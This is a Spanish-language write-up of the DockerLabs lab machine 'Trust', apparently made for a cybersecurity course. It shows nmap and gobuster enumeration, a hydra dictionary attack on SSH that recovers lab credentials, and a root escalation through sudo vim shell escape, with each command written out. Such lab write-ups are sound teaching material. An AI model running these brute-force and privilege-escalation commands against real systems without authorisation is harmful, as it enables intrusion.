







# Trust — DockerLabs Writeup

**Plataforma:** DockerLabs (dockerlabs.es)
**Maquina:** Trust
**Dificultad:** Facil / Media
**Autor:** Alexandro Alanya Montoya

## Resumen

Trust es una maquina de DockerLabs que se resuelve encadenando tres fallos comunes: un archivo olvidado en el servidor web que filtra un usuario, una contrasena debil, y un permiso de sudo mal configurado sobre vim que permite escalar a root.

## Reconocimiento

Escaneo completo de puertos:

```bash
nmap -sC -sV -p- 172.17.0.2
```



Dos puertos abiertos: 22 (SSH, OpenSSH 9.2p1) y 80 (HTTP, Apache/PHP).

## Enumeracion

Al entrar al puerto 80 solo aparece la pagina por defecto de Apache2 sobre Debian, sin contenido personalizado:



Como no habia nada visible, tocaba enumerar directorios y archivos ocultos:

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt -x php,txt,html --exclude-length 10701
```

> Nota: al principio gobuster marcaba falsos positivos (codigo 200 para rutas inexistentes). Todas esas respuestas pesaban 10701 bytes, asi que se filtraron con --exclude-length 10701.



Aparecio /secret.php, no enlazado desde ningun lado de la web:



El mensaje "Hola Mario" filtra sin querer un nombre de usuario valido del sistema: mario.

## Explotacion / Acceso inicial

Con el usuario identificado, ataque de diccionario contra SSH con hydra:

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt -t 4 ssh://172.17.0.2
```



Credenciales validas: mario:chocolate.

```bash
ssh mario@172.17.0.2
```

## Escalada de privilegios

Dentro del sistema, revisar permisos de sudo:

```bash
sudo -l
```



El usuario mario puede ejecutar /usr/bin/vim como cualquier usuario sin contrasena adicional. Esta configuracion esta catalogada en GTFOBins, ya que vim permite ejecutar comandos de shell desde dentro del editor:

```bash
sudo vim -c ':!/bin/bash'
```



whoami confirma acceso como root. Maquina resuelta.

## Conclusion

Trust es un buen ejercicio para practicar la cadena completa de un pentest a pequena escala: reconocimiento, enumeracion, explotacion y escalada. Ninguna vulnerabilidad es compleja de forma aislada, pero encadenadas permiten comprometer la maquina por completo.

---

Writeup realizado con fines educativos como parte de una practica de Ingenieria de Ciberseguridad.
